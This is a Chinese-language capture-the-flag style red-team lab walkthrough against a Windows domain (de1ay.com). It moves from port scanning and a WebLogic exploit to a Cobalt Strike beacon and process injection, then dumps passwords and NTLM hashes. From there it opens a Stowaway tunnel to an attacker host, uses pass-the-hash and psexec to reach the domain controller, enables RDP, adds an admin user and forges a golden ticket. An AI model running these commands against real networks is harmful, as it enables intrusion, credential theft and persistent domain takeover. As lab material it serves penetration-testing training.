## web 打点

```
nmap -sT -p- 192.168.111.80 -Pn
```

```
Nmap scan report for 192.168.111.80
Host is up (0.046s latency).
Not shown: 65522 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
3389/tcp  open  ms-wbt-server
7001/tcp  open  afs3-callback
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49187/tcp open  unknown
49194/tcp open  unknown
60966/tcp open  unknown
```

```
nmap -sT -sV -sC -O -p80,135,139,445,1433,3389,7001 192.168.111.80 -Pn
```

```
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds       Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds
1433/tcp open  ms-sql-s           Microsoft SQL Server 2008 R2 10.50.4000.00; SP2
| ms-sql-info: 
|   192.168.111.80:1433: 
|     Version: 
|       name: Microsoft SQL Server 2008 R2 SP2
|       number: 10.50.4000.00
|       Product: Microsoft SQL Server 2008 R2
|       Service pack level: SP2
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2026-04-12T08:43:07+00:00; -7h59m33s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-04-12T14:48:35
|_Not valid after:  2056-04-12T14:48:35
| ms-sql-ntlm-info: 
|   192.168.111.80:1433: 
|     Target_Name: DE1AY
|     NetBIOS_Domain_Name: DE1AY
|     NetBIOS_Computer_Name: WEB
|     DNS_Domain_Name: de1ay.com
|     DNS_Computer_Name: WEB.de1ay.com
|     DNS_Tree_Name: de1ay.com
|_    Product_Version: 6.1.7601
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=WEB.de1ay.com
| Not valid before: 2026-04-11T14:49:07
|_Not valid after:  2026-10-11T14:49:07
|_ssl-date: 2026-04-12T08:41:38+00:00; -7h59m33s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: DE1AY
|   NetBIOS_Domain_Name: DE1AY
|   NetBIOS_Computer_Name: WEB
|   DNS_Domain_Name: de1ay.com
|   DNS_Computer_Name: WEB.de1ay.com
|   DNS_Tree_Name: de1ay.com
|   Product_Version: 6.1.7601
|_  System_Time: 2026-04-12T08:40:57+00:00
7001/tcp open  ldap               WebLogic application server 10.3.6.0 (T3 enabled)
|_weblogic-t3-info: T3 protocol in use (WebLogic version: 10.3.6.0)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008 (87%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: WEB
|   NetBIOS computer name: WEB\x00
|   Domain name: de1ay.com
|   Forest name: de1ay.com
|   FQDN: WEB.de1ay.com
|_  System time: 2026-04-12T16:41:01+08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -9h08m06s, deviation: 3h01m23s, median: -7h59m33s
| smb2-time: 
|   date: 2026-04-12T08:40:58
|_  start_date: 2026-04-12T14:49:04
```

高价值端口

445 端口 MS17-010 漏洞

7001 端口 WebLogic rce

### weblogic

使用工具注入内存马



上线 cs 打内网

## 内网

### 信息收集

存在两张网卡，并且还有域 `de1ay.com`

192.168.111.80 10.10.10.80





### 进程注入

做一下简单的维权，进行进程注入，还存在360，但是根本不拦



注入 svchost 进程



有管理员权限，抓一下密码和hash

```
logonpasswords
```

```
Authentication Id : 0 ; 113379 (00000000:0001bae3)
Session           : Batch from 0
User Name         : Administrator
Domain            : WEB
Logon Server      : WEB
Logon Time        : 2026/4/12 22:48:30
SID               : S-1-5-21-3767205380-3469466069-2137393323-500
	msv :	
	 [00000003] Primary
	 * Username : Administrator
	 * Domain   : WEB
	 * LM       : f67ce55ac831223dc187b8085fe1d9df
	 * NTLM     : 161cff084477fe596a5db81874498a24
	 * SHA1     : d669f3bccf14bf77d64667ec65aae32d2d10039d
	tspkg :	
	 * Username : Administrator
	 * Domain   : WEB
	 * Password : 1qaz@WSX
	wdigest :	
	 * Username : Administrator
	 * Domain   : WEB
	 * Password : 1qaz@WSX
	kerberos :	
	 * Username : Administrator
	 * Domain   : WEB
	 * Password : 1qaz@WSX
	ssp :	
	credman :	
	 [00000000]
	 * Username : WEB\Administrator
	 * Domain   : WEB\Administrator
	 * Password : 1qaz@WSX
```

```
hashdump
```

```
04/13 01:01:15 beacon> hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
de1ay:1000:aad3b435b51404eeaad3b435b51404ee:3b24c391862f4a8531a245a0217708c4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### 代理隧道

使用stowaway

```
./linux_x64_admin -l 9999 -s test
use 0
socks 8899
windows_x64_agent.exe -c 192.168.111.44:9999 -s test
```

### 横向

对域内主机进行探活和发现

```
arp -a
```



icmp 协议探活

```
for /L %I in (1,1,254) DO @ping -w 1 -n 1 10.10.10.%I | findstr "TTL="
```

```
04/12 23:37:55 beacon> shell for /L %I in (1,1,254) DO @ping -w 1 -n 1 10.10.10.%I | findstr "TTL="
04/12 23:37:55 [*] Tasked beacon to run: for /L %I in (1,1,254) DO @ping -w 1 -n 1 10.10.10.%I | findstr "TTL="
04/12 23:37:57 [+] host called home, sent: 101 bytes
04/12 23:38:07 [+] received output:
来自 10.10.10.10 的回复: 字节=32 时间<1ms TTL=128
```

存活主机：10.10.10.10

是之前发现的DNS服务器，确定为域控制器

```
04/13 01:07:14 beacon> shell net time /domain
04/13 01:07:14 [*] Tasked beacon to run: net time /domain
04/13 01:07:15 [+] host called home, sent: 47 bytes
04/13 01:07:15 [+] received output:
\\DC.de1ay.com 的当前时间是 2026/4/12 17:07:43

命令成功完成。

04/13 01:08:14 beacon> shell ping dc -n 1
04/13 01:08:14 [*] Tasked beacon to run: ping dc -n 1
04/13 01:08:17 [+] host called home, sent: 43 bytes
04/13 01:08:23 [+] received output:

正在 Ping DC.de1ay.com [10.10.10.10] 具有 32 字节的数据:
来自 10.10.10.10 的回复: 字节=32 时间<1ms TTL=128

10.10.10.10 的 Ping 统计信息:
    数据包: 已发送 = 1，已接收 = 1，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 0ms，平均 = 0ms
```

尝试 pth 攻击

```
pth de1ay\administrator 161cff084477fe596a5db81874498a24
```



使用 psexec 工具横向

```
jump psexec 10.10.10.10 bind_tcp
```

bind_tcp 是我创建的一个正向shell





```
04/13 01:32:00 beacon> shell dir \\10.10.10.10\c$
04/13 01:32:00 [*] Tasked beacon to run: dir \\10.10.10.10\c$
04/13 01:32:04 [+] host called home, sent: 63 bytes
04/13 01:32:05 [+] received output:
 驱动器 \\10.10.10.10\c$ 中的卷没有标签。
 卷的序列号是 92FD-8733

 \\10.10.10.10\c$ 的目录

2019/09/08  18:57    <DIR>          101cde781c961a208b
2025/09/02  06:53                25 flag.txt.txt
2013/08/22  23:52    <DIR>          PerfLogs
2013/08/22  22:50    <DIR>          Program Files
2013/08/22  23:39    <DIR>          Program Files (x86)
2026/04/12  15:55    <DIR>          Users
2026/04/12  17:31    <DIR>          Windows
2025/09/02  06:50    <DIR>          新建文件夹
               1 个文件             25 字节
               7 个目录 54,849,384,448 可用字节
```

```
04/13 01:33:51 beacon> shell type \\10.10.10.10\c$\flag.txt.txt
04/13 01:33:51 [*] Tasked beacon to run: type \\10.10.10.10\c$\flag.txt.txt
04/13 01:33:53 [+] host called home, sent: 77 bytes
04/13 01:33:57 [+] received output:
flag{xxxxxx}
```

开启 3389 端口，rdp上去

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

创建用户

```
net user admin01 'Config123!@#' /add
net localgruop administrators admin01 /add
```



### 权限维持

#### 黄金票据

黄金票据的条件

1. 域名
2. 域的 sid
3. 域的 krbtgt 的 NTLM密码哈希
4. 伪造用户名

获取 krbtgt hash、 域的 sid







伪造黄金票据，注入到任意域内用户可以获取到域控管理员权限，算是一种后门

## 总结

本次红队环境主要涉及：Access Token利用、WMI利用、域漏洞利用（SMB relay，EWS relay，PTT(PTC)，MS14-068，GPP，SPN利用）、黄金票据/白银票据/Sid History/MOF等攻防技术。

### 技术清单

- Bypass UAC
- Windows系统NTLM获取（理论知识：Windows认证）
- Access Token利用（MSSQL利用）
- WMI利用
- 网页代理，二层代理，特殊协议代理（DNS，ICMP）
- 域内信息收集
- 域漏洞利用：SMB relay，EWS relay，PTT(PTC)，MS14-068，GPP，SPN利用
- 域凭证收集
- 后门技术（黄金票据/白银票据/Sid History/MOF）
